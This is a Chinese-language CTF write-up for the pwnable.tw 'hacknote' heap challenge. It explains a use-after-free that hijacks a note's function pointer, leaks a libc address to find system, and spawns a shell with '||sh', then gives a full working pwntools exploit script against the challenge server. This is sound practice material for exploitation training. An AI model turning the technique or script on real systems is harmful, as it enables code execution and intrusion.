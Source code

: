 ```yaml
---
title: hacknote
date: 2018-04-20 08:37:40
tags: [CTF, PWN]
categories: PWN练习
---
```

# hacknote wp  -- 白板uaf漏洞利用
这道题是pwnable.tw上的一道200分的选单程序，题目给了你程序和libc文件。一般来这种都是根据功能分为好几个函数，我们需要将每一个函数中的逻辑搞清楚，然后在此基础上找到程序的漏洞.当然直接看的话可能会有难度，我们可以通过先随意构造输入使程序崩溃然后再用调试器去分析程序的处理，得到漏洞所在。
<!--more-->
打开ida开始分析程序发现逻辑是这样的：
首先有一个开始界面显示选项，功能是输出用户选项
```
  puts("----------------------");
  puts("       HackNote       ");
  puts("----------------------");
  puts(" 1. Add note          ");
  puts(" 2. Delete note       ");
  puts(" 3. Print note        ");
  puts(" 4. Exit              ");
  puts("----------------------");
  return printf("Your choice :");
```
然后输出之后是一个read操作从标准输入获取用户输入,之后就是四个主要函数，我把它们分别定义为add，delete，print以及exit，  
![add函数](./img/add.png)  
![delete函数](./img/delete.png)   
![print函数](./img/print.png)  
根据经验，这是道堆题，所以可以把重心放在add和delete函数中，整理一下后发现逻辑是这样的:首先add函数中先malloc一个8个字节的空间，前四个字节用来存储print函数的地址，之后程序会根据用户输入的'note size'给content分配堆空间，然后将分配好的content堆地址存放到最初分配的8个字节的后四个字节，这之后程序获取用户输入的content内容存放到分配的'notesize'大小的堆空间中;delete函数中根据用户输入free掉note结构，但是这里并没有note中的指针设置为null，所以这里可以通过设置迷途指针触发UAF漏洞。  
具体利用思路如下：  
首先add两次，notesize只要不设置成8bytes就好，然后分别delete，这样bin中就会多出两个指向8bytes堆空间的指针，这时再add第三个note，并设置内容大小为8bytes，根据fastbin的LIFO的原则,note1的前8个字节存放note2的指针信息，note3的前8个字节存放新的内容，
```
(*ptr[v1])(ptr[v1]);
```
由于print函数中有一个执行note前四个字节指向函数的操作，只要改写了note的前8个字节，就能触发任意地址读和任意命令执行漏洞。  
![构造](./构造.png)  
需要注意的是这里之前add的两次设置的notesize不能为8bytes，否则的话是无法利用的，因为根据fastbin的LIFO原则，后free掉的空间会先用来存储，而ida中我们可以看到是先free掉存放content的堆空间，然后再free掉note结构的8bytes空间，
![free过程](./free过程.png)  
这样的话之后的add 8bytes就无法改写note结构前8bytes了。这里放上图。 
![若分配8字节](./若分配8字节.png)  
既然能任意地址读，那我们可以先泄露libc中system函数的地址,之后再进行一次delete和add执行system指令。
还有要注意的就是由于后四个字节不够存放`/bin/sh`字符串，这里有个操作就是system('||sh')，`||sh`刚好占用4个字节。  
嗯呐大体就是这样了,可以说是一个白板的UAF,然而就算是白板我也是看wp才做出来的，呜哇我好菜，快来个dalao拯救我一下~    
综上，其实uaf漏洞归根结底是linux系统下堆内存管理机制的问题，但是如果代码写得不规范的话还是很容易引起漏洞的。  

```
#encoding=utf-8
from pwn import *
from pwnlib import *
exe='./hacknote'
#r=process('./hacknote')
r=remote('chall.pwnable.tw',10102)
#gdb.attach(r,'''b *0x8048a41''')
def add(len,content):
	r.recvuntil('Your choice :')
	r.sendline('1')
	r.recvuntil('Note size :')
	r.sendline(str(len))
	r.recvuntil('Content :')
	r.sendline(content)

def delete(index):
	r.recvuntil('Your choice :')
	r.sendline('2')
	r.recvuntil('Index :')
	r.sendline(str(index))

def show(index):
	r.recvuntil('Your choice :')
	r.sendline('3')
	r.recvuntil('Index :')
	r.sendline(str(index))

def leak():
	libc=ELF('./libc_32.so.6')
	libc_read_addr=libc.symbols['free']
	libc_system_addr=libc.symbols['system']
	add(16,'deadbeef')
	add(16,'babycafe')
	delete(0)
	delete(1)
	pri_got_addr=0x804862b
	read_got_addr=0x0804A018
	add(8,p32(pri_got_addr)+p32(read_got_addr))	
	show(0)
	read_addr=u32(r.recv(4))
	system_addr=read_addr-libc_read_addr+libc_system_addr	
	return system_addr	

leak_system_addr=leak()
delete(2)
#delete(1)
#delete(0)                                  #you have no node in [0], you only have content pointer in 0
print hex(leak_system_addr)
add(8,p32(leak_system_addr)+'||sh')
show(0)
r.interactive()

```

